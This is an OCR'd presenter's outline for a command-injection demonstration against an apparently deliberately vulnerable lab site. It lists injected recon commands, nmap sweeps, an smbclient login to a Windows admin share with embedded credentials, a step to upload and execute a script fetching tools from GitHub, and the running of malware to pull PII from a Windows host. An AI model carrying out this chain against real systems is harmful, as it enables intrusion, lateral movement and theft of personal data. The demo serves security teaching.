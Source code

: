 Command Injection Demo:

Academic:
    Dig through DNS\
    Port scan IPs\
    Interrogate IP\
	HTTP Watch/Fiddler/Postman/Wireshark\
	Headers can indicate the stack\
 \
Commands:\
    Login: wier credentials to connect.hackysock.com\
    Browse site… Exploratory work\
    Over to the ping utility\
        note the command injection flaw.\
	    whoami\
	    pwd\
	    cd ../../\
	    ls\
	    ifconfig -a | grep netmask\
	    which nmap\
	    nmap -sP 192.168.122.1/24\
	    namp -p 135 192.168.122.7\
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:\
    Upload file: Note the path description\
	Figure out where uploads go\
	Upload script\
	CHMOD script\
		chmod 775 ../../hackable/uploads/pull_scripts.sh\
	Execute script\
		../../hackable/uploads/pull_scripts.sh\
	Show all the scripts that were pulled down from GitHub\

* It should be apparent at this point that I own the box so…

Drop to shell to show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine
	

	
